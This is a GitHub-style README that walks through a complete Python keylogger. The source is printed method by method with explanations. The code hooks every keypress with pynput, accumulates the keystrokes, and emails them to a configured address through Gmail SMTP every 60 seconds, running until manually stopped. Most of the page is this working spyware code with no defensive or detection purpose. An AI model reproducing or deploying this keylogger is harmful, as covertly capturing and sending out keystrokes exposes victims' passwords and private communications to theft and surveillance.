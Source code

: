 ```
Changes Made:
	1.	Python 3 Interpreter Path: Updated the shebang to #!/usr/bin/env python3.
	2.	String Concatenation: Used += for string concatenation in append_to_log.
	3.	str(key.char) to key.char: Directly used key.char instead of converting it with str.
	4.	Exception Handling for Email Sending: Added a try-except block to handle SMTP errors gracefully.
	5.	key == key.space Updated: Changed to key == pynput.keyboard.Key.space for clarity and compatibility.
	6.	Formatted Strings: Used f-strings for better readability.
	7.	Minor Syntax Adjustments: Ensured compatibility with Python 3 syntax.

Make sure you have the required modules installed:
pip install pynput
```

```
class Keylogger:
    def __init__(self, time_interval, email, password):
        self.log = "Keylogger started"
        self.interval = time_interval
        self.email = email
        self.password = password
```

<ul>
  <li>self.log: A string to store logged keypresses.</li>
  <li>self.interval: Time interval (in seconds) for sending logs via email.</li>
  <li>self.email: Email address used for sending logs.</li>
  <li>self.password: Password for the email account.</li>
</ul>

	

Purpose: Initialize the Keylogger object with required parameters.

```
  def append_to_log(self, string):
      self.log += string
```
<ul>
  <li>Appends each logged keypress (string) to the self.log variable.</li>
</ul>


Purpose: Accumulate keypresses into a single string for periodic reporting.

```
def process_key_press(self, key):
    try:
        current_key = key.char
    except AttributeError:
        if key == pynput.keyboard.Key.space:
            current_key = " "
        else:
            current_key = f" {str(key)} "
    self.append_to_log(current_key)
```

    Purpose: Captures and processes every keypress event.
	Parameter:
	    key: The key event object captured by pynput.
	Behavior:
	    Printable Keys: If key.char is available, log it directly.
	    Special Keys: If key.char isn’t available:
		    Log " " for Key.space.
	    	Log the key name with spaces around it (e.g., " [Shift] ").
	Appends Keypress: Calls append_to_log to add the processed key to self.log.

    Examples:
		Pressing A → Logs: "A"
		Pressing Shift → Logs: " [Shift] "

```
def report(self):
    self.send_mail(self.email, self.password, "\n\n" + self.log)
    self.log = ""
    timer = threading.Timer(self.interval, self.report)
    timer.start()
```

	Purpose: Sends the accumulated key logs via email at regular intervals.
	Behavior:
		Uses send_mail to send the current self.log as an email.
		Clears the self.log after sending.
		Restarts the timer to trigger report after self.interval seconds.

    Example:
		Interval: 60 seconds → Log is emailed every 60 seconds.

```
def send_mail(self, email, password, message):
    try:
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()
    except Exception as e:
        print(f"Failed to send email: {e}")
```


	Purpose: Sends the key logs via email using SMTP.
	Parameters:
		email (str): Sender’s email address.
		password (str): Password for the email account.
		message (str): Content of the log to be emailed.
	Behavior:
		Connects securely to Gmail’s SMTP server (smtp.gmail.com) on port 587.
		Starts a secure connection with starttls.
		Authenticates with the email and password.
		Sends the log as an email.
		Closes the connection with quit.
	Error Handling: If an error occurs during the process, it prints an error message.

```
Example Error Message:
Failed to send email: [Error details]
```
```
def start(self):
    keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
    with keyboard_listener:
        self.report()
        keyboard_listener.join()
```

	Purpose: Starts the keylogger to listen for keyboard events indefinitely.
	Behavior:
		Initializes a pynput.keyboard.Listener.
		Attaches process_key_press to handle every keypress.
		Starts the periodic report method.
		Keeps the listener running indefinitely with keyboard_listener.join().

```
Flow:
	1.	Start listening to keyboard events.
	2.	Log keypresses via process_key_press.
	3.	Periodically send logs via report.
	4.	Keep running until manually stopped.
```

```
if __name__ == "__main__":
    keylogger = Keylogger(time_interval=60, email="your_email@example.com", password="your_password")
    keylogger.start()
```

	Purpose: Initializes and starts the keylogger script when executed directly.
	Behavior:
		Creates an instance of Keylogger.
		Sets the time interval, email, and password.
		Starts the keylogger with start().
